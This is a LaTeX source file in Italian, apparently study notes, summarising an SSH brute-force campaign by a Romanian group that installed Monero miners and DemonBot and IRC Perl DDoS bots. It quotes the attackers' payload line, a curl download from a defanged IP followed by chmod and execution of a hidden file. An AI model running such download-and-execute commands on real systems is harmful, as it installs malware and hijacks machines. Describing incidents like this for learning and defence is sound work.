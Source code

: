 \documentclass[12pt,a4paper]{article}
\begin{document}
\subsection{Attacco brute force nelle macchine linux}
Un gruppo di hacker nato in Romania ha attaccato le macchine Linux utilizzando
un metodo brute force SSH, chiamato \textit{Diicot brute} per decifrare le
password delle macchine con sistema operativo Linux. I crimanali avrebbero
iniettato al interno di queste macchine software per mianare Monero, in oltre
avrebbero collegato queste macchine a ben 2 botnet DDoS \footnote{Distributed
Denial of Service}: la prima è \textit{DemonBot} e la seconda \textit{IRC Perl}.

Fondamentalemente, gli hacker, cercavano credenziali di accesso deboli dei
server SSH. Per trovare questo tipo di credenziali, i criminali, andavano a
scansionare le porte dei server al fine di trovarne una aperta, una volta
individuata vanno a richiedere informazioni dal server che risponde con un
\textit{banner}. Questo banner indica che tipo di servizio offre il server, la
sua versione e nel caso sia un server SSH potrebbe dare ulteriori dettagli sulla
versione del software SSH in esecuzione. Una volta che gli hacker hanno trovato
un accesso al server SSH, utilizzano un software di brute force per identificare
credenziali valide per poi procedere con l'iniezzione del payload.

\paragraph{Payload} Gli hacker eseguono nella sessione SSH il seguente codice:

\begin{verbatim}
    curl -O http://45[.]32[.]112[.]68/.sherifu/.93joshua && 
                    chmod 777 .93joshua && ./.93joshua && uname -a
\end{verbatim}

Una volta preso il controllo della macchina, gli infiltrati installavano XMRing
nella macchina.
\end{document}
